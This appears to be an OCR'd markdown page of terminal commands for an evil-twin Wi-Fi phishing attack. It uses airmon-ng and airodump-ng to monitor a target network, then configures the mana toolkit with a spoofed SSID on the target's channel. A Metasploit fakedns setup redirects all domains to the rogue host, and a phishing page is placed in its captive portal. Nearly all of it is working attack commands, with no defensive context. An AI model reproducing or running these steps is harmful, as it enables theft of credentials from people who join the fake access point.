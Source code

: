 
Monitor the new monitor interface:
```
airodump-ng wlan0mon --essid <target SSID> --manufacturer
```

Stop the mon interface and up the wlan0, so we can use later:
```
airmon-ng stop wlan0mon
ifconfig wlan0 up
```

Install mana toolkit:
```
apt install mana-toolkit
cd /usr/share/mana-toolkit/
cd /run-mana
analyse the start-noupstream.sh code
```

Go to /usr/share/mana-toolkit/hostapd-mana.conf:
```
 → change ssid = Free-Internet or whatever
 → change channel = to the same as the target
```

Go back to the start-noupstream.sh code:
```
 → change the line: dnsmasq -C ... -i $phy // must add the -i
 → comment the line below: # dnsspoof ...
 → comment the line 30: # msfconsole ...
```

- in another tab

Open metasploit:
```
msfconsole
use auxiliary/server/fakedns
options
set targetaction FAKE
set targetdomain *
set targethost 10.0.0.1
exploit -j
```

- copy the html phishing page to /use/share/mana-toolkit/www/portal

Start the payload start-noupstream.sh
```
./start-noupstream.sh
```

Start the second interface to monitor mode:
```
airmon-ng start wlan1
airodump-ng wlan1mon --essid <name of SSID> --channel 6 (of the target)
```

